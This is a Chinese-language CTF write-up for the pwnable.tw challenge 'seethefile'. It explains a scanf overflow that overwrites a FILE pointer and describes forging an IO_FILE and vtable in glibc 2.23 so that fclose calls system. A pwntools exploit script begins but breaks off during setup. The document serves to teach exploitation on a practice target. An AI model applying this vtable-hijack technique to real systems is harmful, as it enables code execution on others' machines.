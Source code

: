 ## seethefile + death_note Wp

### seethefile

#### 题目分析

题目一共有三个功能，打开文件，读入文件，和打印内容。可以打开一个在当前目录下的文件，但是题目会对文件名称进行过滤，会过滤掉所有名字中存在"flag"字样的文件，之后可以奖文件中的内容读入0x18个字节，并打印，在打印的时候也会过滤掉敏感字样。

在功能结束退出时，可以输入一个字符串，这个字符串又有明显的溢出

```c
printf("Leave your name :");
__isoc99_scanf("%s", name);
printf("Thank you %s ,see you next time\n", name);
if ( fp )
fclose(fp);
 
 
.bss:0804B260 name            db 20h dup(?)           ; DATA XREF: main+9F↑o
.bss:0804B260                                         ; main+B4↑o
.bss:0804B280                 public fp
.bss:0804B280 ; FILE *fp
.bss:0804B280 fp              dd ?                    ; DATA XREF: openfile+6↑r
```

可以覆盖到下面的文件指针。

这样在执行fclose的时候就会使用伪造的FILE指针。

#### 漏洞利用

这道题考察的主要是对于 IO_FILE以及vtable的伪造，在glibc 2.23及以前的libc因为缺少对于IO_FILE中vtable指针的检查，导致可以对vtable进行伪造而劫持程序执行流。

针对于这道题，可以覆盖文件指针到bss段的地址，然后在bss段中伪造一个IO_FILE和vtable，之后在执行flcose函数：

- 首先对IO_FILE中的__flag字段进行 & 0x2000的操作。
- 如果结果为0就会调用，__finish函数。

所以在这道题的最终手段就是伪造vtable中的__finsh函数指针为system函数劫持程序执行流，在这个过程中还要对flgas字段进行伪造，使其满足绕过的要求

#### EXP:

```python
#coding=utf-8
from pwn import *
local = 0
exec_file="./a"
#context.binary=exec_file
context.terminal=["tmux","splitw","-h"]
elf=ELF(exec_file,checksec = True)
argv=["/home/jlx/glibc-all-in-one/libs/2.23-0ubuntu11.2_i386/ld-2.23.so",
            "--library-path","/home/jlx/glibc-all-in-one/libs/2.23-0ubuntu11.2_i386/","./a"]
if local :
    a=process(argv = argv)
    if context.arch == "i386" :
        libc = ELF("/home/jlx/glibc-all-in-one/libs/2.23-0ubuntu11.2_i386/libc-2.23.so")
        #libc=ELF("/lib/i386-linux-gnu/libc.so.6",checksec = False)
    elif context.arch == "amd64" :
        libc=ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec = False) 
else:
    a=remote("chall.pwnable.tw",10200)
    libc=ELF("./libc.so.6")
def get_base(a):
    print a.libs()
    text_base = a.libs()[a._cwd+"/a"]
```